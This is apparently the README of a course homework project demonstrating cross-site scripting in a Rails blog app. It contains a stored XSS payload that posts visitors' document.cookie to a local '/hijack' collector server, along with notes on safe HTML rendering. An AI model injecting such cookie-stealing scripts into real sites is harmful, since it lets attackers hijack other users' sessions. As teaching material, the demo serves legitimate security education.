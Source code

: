 # XSS-Demo
ICCS474 Cross-site Scripting Demo Homework

## Installing the project

* After cloning this repo, run `bundle install` in the terminal.
* Open new terminal tab and `cd` to `xss-server` then run `npm install`.
* In `xss-server` directory, run `node server.js`
* In project root directory, run `rails server`

## XSS-Example

When you sign in to the website, create a blog with some content and adding the code below.

```
<script>
	$.post("http://localhost:5000/hijack", {user_cookie: document.cookie});
</script>
```

After this, the other users that viewing the blog created by you will get their cookies
send to the node server. You can view all the cookies in the terminal that run `nodejs server`.

## Safest render function?

Using `sanitize` function to render html is the safest way comparing to `raw`, `<%== %>`, and `.html_safe`. The reason is
because `sanitize` function will remove all tags and attributes of `HTML` that are unsafe. However, using `sanitize`
function for sanitizing input string from the user does not guarantee that the result of rendered `HTML` will be in the
right format. The output can contain unescaped characters such as `<`, `>`, or `&`.
